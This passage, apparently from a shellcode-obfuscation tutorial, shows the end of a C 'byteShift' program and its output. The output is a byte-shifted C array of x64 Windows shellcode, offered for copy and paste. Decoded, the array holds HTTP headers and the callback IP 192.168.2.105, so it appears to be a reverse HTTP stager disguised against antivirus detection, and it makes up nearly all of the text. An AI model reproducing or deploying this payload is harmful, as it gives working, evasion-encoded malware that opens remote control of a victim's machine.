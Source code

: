 ```c

  // Copy/paste wrapper
  printf("\";\n\n");

  return 0;
}


```

Upon execution, the script produces the following result for simple copying and pasting:

```
$ ./byteShift

unsigned char array[] = "\xfd\x49\x84\xe5\xf1\xe9\xc9\x1\x1\x1\x42\x52\x42\x51\x53\x52\x57\x49\x32\xd3\x66\x49\x8c\x53\x61\x49\x8c\x53\x19\x49\x8c\x53\x21\x49\x8c\x73\x51\x49\x10\xb8\x4b\x4b\x4e\x32\xca\x49\x32\xc1\xad\x3d\x62\x7d\x3\x2d\x21\x42\xc2\xca\xe\x42\x2\xc2\xe3\xee\x53\x42\x52\x49\x8c\x53\x21\x8c\x43\x3d\x49\x2\xd1\x67\x82\x79\x19\xc\x3\x76\x73\x8c\x81\x89\x1\x1\x1\x49\x86\xc1\x75\x68\x49\x2\xd1\x51\x8c\x49\x19\x45\x8c\x41\x21\x4a\x2\xd1\xe4\x57\x49\x0\xca\x42\x8c\x35\x89\x49\x2\xd7\x4e\x32\xca\x49\x32\xc1\xad\x42\xc2\xca\xe\x42\x2\xc2\x39\xe1\x76\xf2\x4d\x4\x4d\x25\x9\x46\x3a\xd2\x76\xd9\x59\x45\x8c\x41\x25\x4a\x2\xd1\x67\x42\x8c\xd\x49\x45\x8c\x41\x1d\x4a\x2\xd1\x42\x8c\x5\x89\x49\x2\xd1\x42\x59\x42\x59\x5f\x5a\x5b\x42\x59\x42\x5a\x42\x5b\x49\x84\xed\x21\x42\x53\x0\xe1\x59\x42\x5a\x5b\x49\x8c\x13\xea\x50\x0\x0\x0\x5e\x6b\x1\x4a\xbf\x78\x6a\x6f\x6a\x6f\x66\x75\x1\x42\x57\x4a\x8a\xe7\x4d\x8a\xf2\x42\xbb\x4d\x78\x27\x8\x0\xd6\x49\x32\xca\x49\x32\xd3\x4e\x32\xc1\x4e\x32\xca\x42\x51\x42\x51\x42\xbb\x3b\x57\x7a\xa8\x0\xd6\xec\x74\x5b\x49\x8a\xc2\x42\xb9\x91\x20\x1\x1\x4e\x32\xca\x42\x52\x42\x52\x6b\x4\x42\x52\x42\xbb\x58\x8a\xa0\xc7\x0\xd6\xec\x5a\x5c\x49\x8a\xc2\x49\x32\xd3\x4a\x8a\xd9\x4e\x32\xca\x53\x69\x1\x3\x41\x85\x53\x53\x42\xbb\xec\x56\x2f\x3c\x0\xd6\x49\x8a\xc7\x49\x84\xc4\x51\x6b\xb\x60\x49\x8a\xf2\x49\x8a\xdb\x4a\xc8\xc1\x0\x0\x0\x0\x4e\x32\xca\x53\x53\x42\xbb\x2e\x7\x19\x7c\x0\xd6\x86\xc1\x10\x86\x9e\x2\x1\x1\x49\x0\xd0\x10\x85\x8d\x2\x1\x1\xec\xd4\xea\xe5\x2\x1\x1\xe9\xa3\x0\x0\x0\x30\x56\x6f\x72\x76\x66\x76\x66\x30\x77\x32\x31\x2f\x31\x36\x30\x5b\x31\x52\x5b\x3a\x5b\x59\x46\x59\x48\x46\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x42\x64\x64\x66\x71\x75\x3b\x21\x62\x71\x71\x6d\x6a\x64\x62\x75\x6a\x70\x6f\x30\x6b\x74\x70\x6f\x2d\x21\x75\x66\x79\x75\x30\x69\x75\x6e\x6d\x2d\x21\x62\x71\x71\x6d\x6a\x64\x62\x75\x6a\x70\x6f\x30\x79\x69\x75\x6e\x6d\x2c\x79\x6e\x6d\xe\xb\x42\x64\x64\x66\x71\x75\x2e\x4d\x62\x6f\x68\x76\x62\x68\x66\x3b\x21\x74\x72\xe\xb\x42\x64\x64\x66\x71\x75\x2e\x46\x6f\x64\x70\x65\x6a\x6f\x68\x3b\x21\x68\x7b\x6a\x71\x2d\x21\x63\x73\xe\xb\x56\x74\x66\x73\x2e\x42\x68\x66\x6f\x75\x3b\x21\x4e\x70\x7b\x6a\x6d\x6d\x62\x30\x36\x2f\x31\x21\x29\x58\x6a\x6f\x65\x70\x78\x74\x21\x4f\x55\x21\x32\x31\x2f\x31\x3c\x21\x58\x6a\x6f\x37\x35\x3c\x21\x79\x37\x35\x2a\x21\x42\x71\x71\x6d\x66\x58\x66\x63\x4c\x6a\x75\x30\x36\x34\x38\x2f\x34\x37\x21\x29\x4c\x49\x55\x4e\x4d\x2d\x21\x6d\x6a\x6c\x66\x21\x48\x66\x64\x6c\x70\x2a\x21\x44\x69\x73\x70\x6e\x66\x30\x37\x33\x2f\x31\x2f\x34\x33\x31\x33\x2f\x3a\x35\x21\x54\x62\x67\x62\x73\x6a\x30\x36\x34\x38\x2f\x34\x37\xe\xb\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x42\xbf\xf1\xb6\xa3\x57\x0\xd6\x49\x32\xca\xbb\x1\x1\x41\x1\x42\xb9\x1\x11\x1\x1\x42\xba\x41\x1\x1\x1\x42\xbb\x59\xa5\x54\xe6\x0\xd6\x49\x94\x54\x54\x49\x8a\xe8\x49\x8a\xf2\x49\x8a\xdb\x42\xb9\x1\x21\x1\x1\x4a\x8a\xfa\x42\xbb\x13\x97\x8a\xe3\x0\xd6\x49\x84\xc5\x21\x86\xc1\x75\xb7\x67\x8c\x8\x49\x2\xc4\x86\xc1\x76\xd8\x59\x59\x59\x49\x6\xa2\x4\x1\x1\x51\xc4\xe9\xa0\xfe\x0\x0\x32\x3a\x33\x2f\x32\x37\x39\x2f\x33\x2f\x32\x31\x36\x1\x1\x1\x1\x1\x1";

$
```
